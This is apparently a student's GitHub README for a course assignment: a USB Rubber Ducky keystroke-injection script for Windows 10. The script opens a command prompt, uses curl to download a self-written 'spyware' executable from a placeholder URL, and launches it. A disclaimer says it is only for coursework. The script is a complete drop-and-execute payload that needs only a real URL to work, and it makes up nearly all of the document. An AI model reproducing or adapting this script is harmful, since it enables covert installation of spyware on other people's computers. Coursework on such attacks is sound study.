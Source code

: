 # Spyware Installer - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script will download a spyware that I created from a url and run it<br/>
Steps to write the script:
1. Open cmd
2. Go to Downloads Folder
3. Download the spyware from URL
4. Run the SPyware
7. Close the cmd

**This script is for the course's assignment and I don't aim to use it to harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd---------
ENTER
DELAY 1000
REM ---------Go To Downloads Folder---------
STRING cd Downloads
ENTER
DELAY 500
REM ---------Download Spyware from URL---------
STRING curl http://linkWhereIuploadedTheSpyware.exe --output spicy.exe
ENTER
DELAY 10000
REM ---------Start Spyware---------
STRING start spicy.exe
DELAY 3000
REM ---------close cmd---------
ALT F4
```
